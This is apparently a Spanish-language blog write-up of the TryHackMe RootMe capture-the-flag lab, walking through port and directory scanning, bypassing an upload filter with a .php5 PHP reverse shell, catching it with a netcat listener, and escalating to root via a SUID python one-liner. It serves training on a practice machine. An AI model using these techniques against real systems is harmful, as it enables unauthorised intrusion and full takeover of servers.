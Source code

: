 ```yaml
---
layout: single
title:  "RootMe Writeup [ES] - TryHackMe"
date:   2021-04-02 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


En esta ocasión estaré resolviendo el lab [RootMe](https://www.tryhackme.com/room/rrootme) de la plataforma **TryHackMe**. Esta máquina es bastante sencilla como se verá a continuación.

## Lab info

![Lab Info](/images/THM/RootMe/00-lab-info.png "Machine Info"){: .align-center}


## Task 1 - Deploy the machine

Desplegar la máquina, no requiere respuesta.

## Task 2 - Reconnaissance

1 - Scan the machine, how many ports are open?
``` 
2
```
Según el escáner realizado con **nmap**, podemos ver que existen 2 puertos abiertos. Se han utilizado los siguientes comandos:

* ```nmap -p- -sS --min-rate 4000 -n -v 10.10.253.211 -oG allPorts.gnmap```
* ```nmap -sC -sV -p22,80 10.10.253.211 -oN ports.nmap```


```go
Nmap scan report for 10.10.253.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - What version of Apache is running?
```
2.4.29
```
Esta información se puede visualizar desde el escaner nmap o realizando ```whatweb http://10.10.253.211```
```bash
http://10.10.253.211 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.253.211], Script, Title[HackIT - Home]
```
Desde el navegador se visualiza la siguiente home page:

![Web Page](/images/THM/RootMe/05-web-page.png){: .align-center}

3 - What service is running on port 22?
```
SSH
```

4 - Find directories on the web server using the GoBuster tool.
```
No requiere respuesta
```
5 - What is the hidden directory?

```
/panel/
```

Gobuster scan: 

* ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.253.211/ -t 300 --no-error```

```go
===============================================================
2021/04/02 19:02:50 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.253.211/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.253.211/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.253.211/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.253.211/panel/]
```

## Task 3 - Getting a shell

Para esta tarea la plataforma solicita obtener una shell en base a lo que se ha descubierto anteriormente. Para ello revisamos la ruta ```http://10.10.253.211/panel/``` en donde se visualiza un panel para subir archivos.

![Panel](/images/THM/RootMe/10-web-upload-page.png){: .align-center}

Esto nos hace pensar que es posible subir un archivo que nos entable una reverse shell. Para que funcione, debemos saber que lenguaje interpretará la página. Revisando en Wappalyzer vemos que la web está construida en ```php```

![PHP](/images/THM/RootMe/15-web-upload-language.png){: .align-center}

Sabiendo esto, yo recomiendo utilizar el recurso de [Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) para la reverse shell con PHP.

Descargamos el archivo y lo editamos para asegurarnos de definir nuestra IP y Puerto en el que queremos recibir la shell.

![RSHELL](/images/THM/RootMe/20-reverse-shell-php.png){: .align-center}

Probamos a subir el archivo y nos encontramos con el siguiente mensaje:

![Web Error](/images/THM/RootMe/26-web-error.png){: .align-center}

Lo que nos da a entender que la extensión del archivo no es válida.

Para lidiar con esto, lo que se puede hacer es crear múltiples archivos con distinta extensión y probar uno a uno o bien realizar esta comprobación con **BurpSuite** lo cual resulta más cómodo. Recordar que existe un [room](https://www.tryhackme.com/room/rpburpsuite) en la plataforma de TryHackMe donde se puede aprender a utilizar BurpSuite desde cero.

Dicho lo anterior, lo que se debe hacer es interceptar la subida del archivo y analizar la respuesta del lado del servidor hasta que nos dé una respuesta satisfactoria.

Se intercepta la petición realizada por el navegador y posteriormente se envía al repeater. En la izquierda tenemos la petición realizada con un archivo con extensión ```.php``` y en la derecha se visualiza la respuesta indicando que la extensión no es válida.

![Burp Error](/images/THM/RootMe/30-burp-error.png){: .align-center}

Cambiamos la extensión y vemos que la respuesta ahora es satisfactoria. Esta respuesta se obtiene con las extensiones ```.php2``` ```.php3``` ```.php4``` ```.php5```.

![Burp Ok](/images/THM/RootMe/35-burp-ok.png){: .align-center}

En mi caso subiré el archivo como rshell.php5

![Web Ok](/images/THM/RootMe/41-web-ok.png){: .align-center}

Como se aprecia en la imagen, se obtiene una respuesta exitosa y en el texto señalado se obtiene la ruta del archivo que fue subido. En mi caso la ruta es: ```http://10.10.253.211/uploads/rshell.php5```

Ahora con netcat abrimos el canal para la escucha tráfico en el puerto 443 que definimos anteriormente.

```go
nc -nlvp 443
listening on [any] 443 ...
```

Y ejecutamos el archivo en el navegador para obtener una shell con el usuario www-data.

```go
nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.253.211] 35932
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:23:22 up  3:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
la flag de este usuario se encuentra en ```/var/www/user.txt```.

```bash
THM{y0u_**********}
```

## Task 4 - Privilege escalation

Para la fase de escalada de privilegios lo primero sería hacer una búsqueda de archivos con permiso SUID habilitado.

```bash
$ find \-perm -4000 2>/dev/null | grep -v "snap"
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./bin/mount
./bin/su
./bin/fusermount
./bin/ping
./bin/umount
```

En base a lo obtenido y haciendo uso de la web [GTFObins](https://gtfobins.github.io/), podemos identificar que se puede explotar python para obtener una shell con privilegios elevados. En la sección de SUID nos indican como realizarlo.

![Web Ok](/images/THM/RootMe/45-gtfobins.png){: .align-center}


```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Por último se realiza una lectura de la flag ubicada en /root/root.txt

```bash
THM{pr1v1l**********}
```
Eso concluye la última pregunta de este lab.